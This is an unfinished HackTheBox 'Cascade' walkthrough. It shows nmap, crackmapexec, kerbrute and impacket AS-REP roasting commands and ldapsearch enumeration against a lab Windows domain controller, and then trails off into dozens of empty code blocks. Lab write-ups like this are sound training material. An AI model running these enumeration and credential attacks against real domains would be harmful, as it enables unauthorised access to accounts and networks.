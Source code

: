 ```yaml
---
title: Cascade - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - active
  - directory
  - windows
  - medium
---
```

# HTB Cascade

## Description

![](img/Cascade.png)

Cascade is a medium difficulty Windows machine configured as a Domain Controller. LDAP anonymous binds are enabled, and enumeration yields the password for user `r.thompson`, which gives access to a `TightVNC` registry backup. The backup is decrypted to gain the password for `s.smith`. This user has access to a .NET executable, which after decompilation and source code analysis reveals the password for the `ArkSvc` account. This account belongs to the `AD Recycle Bin` group, and is able to view deleted Active Directory objects. One of the deleted user accounts is found to contain a hardcoded password, which can be reused to login as the primary domain administrator.

## user.txt

Enumerate:

```bash
 sudo nmap -sC -sV $ip -Pn --top-ports 10000
```

Results: 

```
Host is up (0.037s latency).
Not shown: 8353 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-13 19:01:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
|_clock-skew: -7m01s
| smb2-time: 
|   date: 2025-01-13T19:02:22
|_  start_date: 2025-01-13T18:56:18

```

We enumerate users:

```bash
crackmapexec smb $ip --users
```

Results:

```
SMB         10.129.67.96    445    CASC-DC1         [+] Enumerated domain user(s)
SMB         10.129.67.96    445    CASC-DC1         cascade.local\CascGuest                      Built-in account for guest access to the computer/domain
SMB         10.129.67.96    445    CASC-DC1         cascade.local\arksvc                         
SMB         10.129.67.96    445    CASC-DC1         cascade.local\s.smith                        
SMB         10.129.67.96    445    CASC-DC1         cascade.local\r.thompson                     
SMB         10.129.67.96    445    CASC-DC1         cascade.local\util                           
SMB         10.129.67.96    445    CASC-DC1         cascade.local\j.wakefield                    
SMB         10.129.67.96    445    CASC-DC1         cascade.local\s.hickson                      
SMB         10.129.67.96    445    CASC-DC1         cascade.local\j.goodhand                     
SMB         10.129.67.96    445    CASC-DC1         cascade.local\a.turnbull                     
SMB         10.129.67.96    445    CASC-DC1         cascade.local\e.crowe                        
SMB         10.129.67.96    445    CASC-DC1         cascade.local\b.hanson                       
SMB         10.129.67.96    445    CASC-DC1         cascade.local\d.burman                       
SMB         10.129.67.96    445    CASC-DC1         cascade.local\BackupSvc                      
SMB         10.129.67.96    445    CASC-DC1         cascade.local\j.allen                        
SMB         10.129.67.96    445    CASC-DC1         cascade.local\i.croft  
```




```
~/tools/kerbrute/dist/kerbrute_linux_amd64 userenum -d cascade.local --dc $ip ~/borrar/users.txt 

```




```
python3 ~/tools/impacket/examples/GetNPUsers.py CASCADE.LOCAL/ -dc-ip $ip -no-pass -usersfile ~/borrar/users.txt | grep -v SessionError


python3 ~/tools/impacket/examples/GetNPUsers.py --dc-ip $ip CASCADE.LOCAL/Backupsvc -request 
```




```
ldapsearch -x -H ldaps://$ip -b "DC=CASCADE,DC=LOCAL" "(objectClass=user)"

ldapsearch -x -H ldap://$ip -b "DC=CASCADE,DC=LOCAL" "(objectClass=user)" cn mail sAMAccountName

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```




```

```


